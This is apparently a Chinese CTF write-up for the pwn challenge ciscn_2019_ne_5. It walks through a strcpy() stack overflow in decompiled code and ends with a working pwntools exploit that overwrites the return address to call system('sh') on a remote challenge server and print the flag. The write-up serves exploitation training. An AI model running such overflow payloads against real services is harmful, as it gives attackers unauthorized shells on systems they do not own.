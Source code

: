 ```yaml
---
title: ciscn_2019_ne_5
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec ciscn_2019_ne_5
[*] '/home/ela/Pwn/ciscn_2019_ne_5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再用 IDA 打开看看主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *v9; // [esp+F4h] [ebp-Ch]

  v9 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 0x30;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog((int)src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```

感觉有点多，先跑一次试试看

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ./ciscn_2019_ne_5
Welcome to use LFS.
Please input admin password:administrator
Welcome!
Input your operation:
1.Add a log.
2.Display all logs.
3.Print all logs.
0.Exit
:
```

这个 `admin password` 就是 `administrator`，这个看看上面的主程序就能知道，重点在下面

这里面没有提供 `4` 选项，但从主程序上面我们可以看出来选 `4` 的时候可以 `GetFlag()`，那我们就先试试看

```
The flag is your log:0
```

这里说 `The flag is your log`，说明我们应该添加一条 `log` 再陪他玩，那就暂时由不得我们了，我们先去看看 `AddLog()` 函数长啥样

```c
int __cdecl AddLog(int a1)
{
  printf("Please input new log info:");
  return __isoc99_scanf("%128s", a1);
}
```

感觉也没啥，就是把最大长度 128 的字符串存到传进来的变量中，再看看 `GetFlag()` 长啥样

## `strcpy()` 溢出

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF

  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

这里就出现了会导致栈溢出的函数 `strcpy()`，正如他的名字一样，复制字符串，把 `src` 的内容复制到 `dest` 里

如果你看一看主程序，你就会发现，`AddLog()` 和 `GetFlag()` 都用了同样的参数 `src`，也就是说，我们可以传入一个大于 `0x48` 的东西造成 `dest` 那边的栈溢出，这两边是互通的

## 寻找地址

首先我们需要一个 `system()` 函数，这个很简单，很快就找到了，在 `0x80484D0`

还要一个 `/bin/sh` 字符串，Shift + F12 找来找去发现没有，所以用 ROPgadget 来找一找

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary ciscn_2019_ne_5 --string '/bin/sh'
Strings information
============================================================
```

本来以为要 ret2libc 了，但是 ROPgadget 找到了 `sh` 字符串，也算是一种 `/bin/sh` 的平替了

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh' 
Strings information
============================================================
0x080482ea : sh
```

这样东西就齐了

## 编写 Exp

```python
from pwn import *

p32 = lambda x: pack(x, 32)

io = remote("node4.buuoj.cn", 26228)

main_addr = 0x8048722
system_addr = 0x80484D0
sh_addr = 0x80482EA

io.sendlineafter("Please input admin password:", "administrator")
io.sendlineafter("0.Exit\n:", "1")

payload = b"A"*(0x48+0x4) + p32(system_addr) + p32(main_addr) + p32(sh_addr)
io.sendlineafter("info:", payload)

io.sendlineafter("0.Exit\n:", "4")
io.interactive()

```

最后得到的 Flag 是 `flag{1b1d17cc-fc42-42f1-8692-f44e99877151}`
